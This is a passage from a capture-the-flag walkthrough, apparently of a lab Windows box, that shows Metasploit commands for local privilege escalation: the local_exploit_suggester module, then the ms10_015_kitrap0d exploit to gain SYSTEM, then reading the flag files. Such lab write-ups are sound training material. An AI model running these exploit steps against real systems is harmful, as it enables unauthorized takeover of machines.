 ![](/images/devel/15. search_suggester.png)

This is a post-exploitation local exploit suggester (aka privilege escalation, which we sorely need).

    use 0     (or use post/multi/recon/local_exploit_suggester)

    show options

![](/images/devel/16. local_exploit_suggester.png)

We need to set the meterpreter session (in my case, it is 2, but yours is probably session 1) and then run it.

    set session 2

    run

![](/images/devel/16. local_exploit_suggester_2.png)

We have several results here. A good one to choose when it is an option is the ms10_015_kitrap0d so we'll go with that:

    use exploit/windows/local/ms10_015_kitrap0d

    show options

Note: My meterpreter session died while I was working on it here, so in the following screenshots you'll see session 3 instead of session 2. Your session number should remain the same throughout.

![](/images/devel/17. ms10_015_kitrap0d.png)
![](/images/devel/17. ms10_015_kitrap0d_2.png)

Success!  We have system level privileges.  Now let's go get some flags:

    cd c:\Users
    
    dir

![](/images/devel/18. shell.png)

We have users babis and Administrator.  For some reason on this box the flag files are named user.txt.txt and root.txt.txt:

    type babis\Desktop\user.txt.txt
    
    type Administrator\Desktop\root.txt.txt

![](/images/devel/19. flags.png)

And here we have our flags.



<p>&nbsp;</p>
=======================================================

## Manual Exploitation
